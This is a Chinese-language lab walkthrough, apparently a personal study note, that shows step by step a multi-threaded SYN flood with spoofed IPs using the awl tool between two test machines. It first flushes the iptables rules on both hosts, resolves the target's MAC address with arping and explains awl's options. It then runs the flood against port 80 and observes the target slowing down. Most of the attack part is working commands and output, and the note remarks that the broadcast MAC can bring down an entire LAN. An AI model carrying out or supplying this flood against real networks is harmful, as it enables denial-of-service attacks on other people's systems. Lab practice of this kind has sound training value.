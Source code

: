 
​    

    [root@exercise2 ~]# iptables -F   #清除防火墙规则
    [root@exercise2 ~]# 

**<font color='red'>开始攻击：
实战4：在局域网中使用awl伪装IP地址进行多线程SYN攻击
 </font>**

**获取对方的IP地址解析成MAC地址**

    #在exercise1操作
    [root@exercise1 awl-0.2]# ping 192.168.119.146   #exercise2的IP地址


​    

    [root@exercise1 awl-0.2]# arping 192.168.119.146
    ARPING 192.168.119.146 from 192.168.119.149 ens33
    Unicast reply from 192.168.119.146 [00:50:56:35:48:5B]  0.802ms
    Unicast reply from 192.168.119.146 [00:50:56:35:48:5B]  0.823ms
    Unicast reply from 192.168.119.146 [00:50:56:35:48:5B]  0.773ms
    Unicast reply from 192.168.119.146 [00:50:56:35:48:5B]  0.856ms
    ^CSent 4 probes (1 broadcast(s))
    Received 4 response(s)

**Unicast reply from 192.168.119.146 [<font color='red'>00:50:56:35:48:5B</font>]  0.856ms   标红的是对方网卡的MAC地址**

**<font color='red'>开始攻击：</font>**
**awl参数如下:**

    -i  发送包的网关,如果省略默认是ens33
    
    -m  指定目标mac地址注：如果-m没有指定mac，默认目标MAC地址是“FF.FF.FF.FF.FF.FF”

**FF.FF.FF.FF.FF.FF  MAC地址是什么？**
**<font color='red'>这表示向同一网段内的所有主机发出ARP广播，进行SYN攻击，还容易使整个局域网瘫痪</font>。**

    -d  被攻击机器的IP
    
    -p  被攻击机器的端口

**两台机器都要清除防火墙规则：**

    [root@exercise1 awl-0.2]# iptables -F


​    
​    

    [root@exercise1 awl-0.2]# awl -i ens33 -m 00:50:56:35:48:5B -d 192.168.119.146 -p 80


​    
**测试攻击效果：**
**在exercise2上查看：发现很多伪装成公网的IP在攻击我这台测试机；同时，会发现exercise2机器因为被攻击而卡顿了**
![netstat.png](https://note-1308251438.cos.ap-guangzhou.myqcloud.com/typora/202208191514933.png)

